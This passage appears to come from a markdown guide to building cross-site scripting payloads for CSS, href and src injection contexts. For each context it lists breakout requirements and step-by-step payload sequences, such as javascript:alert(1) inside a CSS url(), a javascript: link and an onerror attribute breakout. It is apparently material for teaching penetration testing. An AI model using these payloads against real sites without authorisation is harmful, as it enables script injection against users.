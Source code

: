 **Structural Requirements:**
- **Escape:** Not needed initially
- **Structure:** `}` (close current rule)
- **Payload:** New CSS rule
- **Cleanup:** Close any opened rules

**Progressive Testing:**
```
Step 1: red
Step 2: red;}
Step 3: red;}body{
Step 4: red;}body{background:url(javascript:alert(1))
Step 5: red;}body{background:url(javascript:alert(1))}
```

## URL/Protocol Contexts

### href Attributes
**Context Pattern:**
```html
<a href="USER_INPUT">
```

**Structural Requirements:**
- **Escape:** Not needed (URL context)
- **Structure:** Valid URL scheme
- **Payload:** `javascript:` protocol
- **Cleanup:** Not typically needed

**Progressive Testing:**
```
Step 1: http://test.com
Step 2: javascript:
Step 3: javascript:alert(1)
Step 4: javascript:alert(1);//
```

### src Attributes  
**Context Pattern:**
```html
<img src="USER_INPUT">
<script src="USER_INPUT">
```

**Structural Requirements:**
- **Escape:** `"` (if breaking out of attribute)
- **Structure:** Space + new attribute
- **Payload:** Event handler
- **Cleanup:** `"` (close attribute)

**Progressive Testing:**
```
Step 1: http://test.com/image.jpg
Step 2: " 
Step 3: " onerror="
Step 4: " onerror="alert(1)
Step 5: " onerror="alert(1)"
```
